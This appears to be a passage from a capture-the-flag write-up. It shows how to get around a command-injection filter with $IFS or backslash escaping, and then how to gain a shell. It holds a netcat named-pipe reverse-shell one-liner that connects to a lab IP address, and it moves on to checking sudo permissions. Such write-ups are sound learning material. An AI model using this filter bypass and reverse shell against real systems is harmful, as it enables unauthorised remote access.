 It did say that there is some filtering going on here 
Two ways i think we can break through this 
1. we can use the $IFS to add a space after the command 
2. We can use the escaping character \\ to get the command to execute 

Both of these work btw 

$IFS first 

![[Pasted image 20240921191721.png]]

and the \\ character now

![[Pasted image 20240921191801.png]]

Im gonna use the \\ one from here on out as for every space we have to add the $IFS and we only need to use only one escaping character here 

<hr>

### Gaining Access :

Now we can execute any command here 
bash revshell didnt work for me here

Lets run the netcat revshell to get a shell 

First start a listener

![[Pasted image 20240921192054.png]]

Now put in this to get a revshell here 

```bash
r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.94.2 9001 >/tmp/f
```

And we get our revshell here 

![[Pasted image 20240921192157.png]]

Lets upgrade this 

![[Pasted image 20240921192244.png]]

<hr>

### Lateral PrivEsc - 1 :

Lets see the sudo permissions here 

![[Pasted image 20240921192409.png]]

Lets see the content of this script here 

![[Pasted image 20240921192450.png]]
